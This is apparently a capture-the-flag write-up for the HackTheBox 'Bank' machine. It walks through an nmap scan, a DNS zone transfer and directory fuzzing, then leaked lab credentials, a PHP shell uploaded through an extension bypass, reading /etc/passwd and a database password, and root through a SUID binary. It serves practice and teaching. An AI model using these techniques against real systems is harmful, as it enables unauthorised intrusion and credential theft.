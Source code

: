 1,Recon
port scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is interesting service of DNS, that means we can try to get the sub-domain of this machine.

```
dig axfr bank.htb @10.10.10.29             

; <<>> DiG 9.20.1-1-Debian <<>> axfr bank.htb @10.10.10.29
;; global options: +cmd
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.10.10.29
ns.bank.htb.            604800  IN      A       10.10.10.29
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
;; Query time: 23 msec
;; SERVER: 10.10.10.29#53(10.10.10.29) (TCP)
;; WHEN: Sat Nov 02 04:36:04 EDT 2024
;; XFR size: 6 records (messages 1, bytes 171)
```

I guess there is something useful for sub-domain `www.bank.htb` and `bank.htb`
When we check the url `http://bank.htb`, we are redirected to a login page.
![](images/Pasted%20image%2020241102044029.png)

But we don't have valid creds, so let's try to fuzz the other web-contents.
`gobuster dir -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]

```
In this place, `/balance-transfer` would be our target.
![](images/Pasted%20image%2020241102045849.png)
Then we can find the smallest one with valid credit.
```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===

```

Inside there is a function to upload files.
![](images/Pasted%20image%2020241102050144.png)
And we can watch the attachment from this website, so that means we can upload a reverse shell and handle it.

If I try to uploada shell I get the followin message: "You cant upload this this file. You can upload only images.". However in the source of the page we see the following comments:
`<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->`

So we just need to make a shell.htb and upload it , then we can get the shell as `www-data`

2,shell as valid users
By enumerating the service directory, we find the mysql credit from /var/www/bank/inc/user.php

```
class User {

        function login($email, $password){
                $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");

```

And from /etc/passwd, we only find one valid user `chris`
```
chris:x:1000:1000:chris,,,:/home/chris:/bin/bash
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
bind:x:105:112::/var/cache/bind:/bin/false
mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false
```

So let's try to use `root:!@#S3cur3P4ssw0rd!@#` and `chris:!##HTBB4nkP4ssw0rd!##` to switch to other users.

But very sadly, they did not work.

Let's upload `linpeas.sh` to check is there anything  can help us.
Checking the following output, at the top we see a file called emergency that has the SUID bit set and is owned by root.
```
[-] SUID files:
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 492972 Aug 11  2016 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 333952 Dec  7  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 9808 Nov 24  2015 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 daemon daemon 46652 Oct 21  2013 /usr/bin/at
-rwsr-xr-x 1 root root 35916 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 44620 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 18168 Nov 24  2015 /usr/bin/pkexec
-rwsr-xr-x 1 root root 30984 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 18136 May  8  2014 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 66284 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 156708 May 29  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 72860 Oct 21  2013 /usr/bin/mtr
-rwsr-sr-x 1 libuuid libuuid 17996 Nov 24  2016 /usr/sbin/uuidd
-rwsr-xr-- 1 root dip 323000 Apr 21  2015 /usr/sbin/pppd
-rwsr-xr-x 1 root root 38932 May  8  2014 /bin/ping
-rwsr-xr-x 1 root root 43316 May  8  2014 /bin/ping6
-rwsr-xr-x 1 root root 35300 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 30112 May 15  2015 /bin/fusermount
-rwsr-xr-x 1 root root 88752 Nov 24  2016 /bin/mount
-rwsr-xr-x 1 root root 67704 Nov 24  2016 /bin/umount
```

I guess `/var/htb/bin/emergency` could help us get the root shell.

When we execute it, then we successfully get the root shell.
